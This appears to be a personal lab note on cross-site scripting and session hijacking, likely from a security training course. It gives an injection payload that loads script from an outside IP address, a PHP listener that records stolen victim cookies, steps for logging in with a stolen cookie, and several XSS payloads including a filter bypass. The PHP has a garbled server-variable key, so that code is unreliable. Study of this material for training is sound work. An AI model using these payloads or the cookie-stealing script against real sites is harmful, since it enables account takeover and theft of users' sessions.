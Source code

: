 ***LAB Payload:*
```html
"><script src=http://10.10.16.18/script.js></script>
```

#### PHP Script to Sort Cookies
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['http://10.129.214.170/hijacking/index.php']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

#### Use the cookie on the `login.php` page to access the victim's account
- [Shift+F9] (`Storage` bar in Developer Tools)
- Click on `+` in the top right corner to add the cookie, where `Name` is the part before `=` and the `Value` is the part after `=` from the stolen cookie
![[Pasted image 20230128142859.png]]
- Refresh the page to gain access

## XSS Payloads

#### Basic XSS Payload
```html
<script>alert(window.origin)</script>
```

#### Basic XSS Payload w/ Filter Bypass
```HTML
'><script>alert("XSS!")</script>'
```

#### Print Dialog Box XSS Payload
```html
<script>print()</script>
```

#### Plaintext XSS Payload
```html
<plaintext>alert(window.origin)</plaintext>
```

#### Acquiring a Cookie with XSS
```html
<script>alert(document.cookie)</script>
```
